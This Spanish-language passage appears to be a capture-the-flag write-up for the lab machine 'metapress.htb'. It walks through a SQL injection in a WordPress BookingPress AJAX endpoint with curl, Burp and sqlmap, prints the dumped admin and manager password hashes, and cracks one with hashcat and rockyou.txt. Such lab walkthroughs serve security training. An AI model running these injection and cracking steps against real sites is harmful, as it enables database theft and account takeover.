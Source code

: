 ## Esto funciona de la siguiente manera:

#### Envíamos la misma petición POST con "curl" pero dirigimos el tráfico por nuestro proxy hacia nuestro host local (localhost) en el puerto 8080 con el comando: 

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=f5c16a06dd&category_id=1&total_service=1' --proxy 127.0.0.1:8080
```

#### Luego de ser capturado por Burp Suite, copiamos el Request al archivo "req.txt" (o cualquier nombre, usar "req.txt" es buena práctica para recordar qué archivo es):

![](https://i.ibb.co/8Bpgjvr/burpsuite-copy-to-file.png)

## Y ahora sí vamos con SQLmap:

**Luego de lanzar varios comandos, descubrimos una base de datos llamada "blog" con una tabla "wp_users" así que la enumeramos con el siguiente comando:**  

Esto utilizará códigos de SQL Injection a fuerza bruta con el diccionario por defecto de SQLmap:

```bash
sqlmap -r req.txt -p "total_service"  --threads 9 --batch -D blog -T wp_users --dump
```

#### Resulta que tenemos suerte, y logramos obtener lo siguiente:
user_login: `admin`
user_pass: `$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.`

user_login: `manager`
user_pass: `$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70`

**Con estos hashes de contraseñas de los usuarios "admin" y "manager", podemos identificar qué tipo de hash son, con la utilidad "hash-identifier"**

> Possible Hashs: [+] MD5(Wordpress)

#### En éste momento procedemos a crackear el hash del usuario "manager" con Hashcat


### Utilizaremos el diccionario "rockyou.txt" que es el predeterminado en las máquinas de CTF:

```bash
hashcat -a 0 -m 400 hash.txt /usr/share/wordlists/rockyou.txt -o password_of_manager_user -O
```

- Donde "hash.txt" es el hash que descubrimos con SQLmap del usuario manager, es decir: 
`$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70`. Y donde "400" es el código de hashcat para **MD5(Wordpress)**.
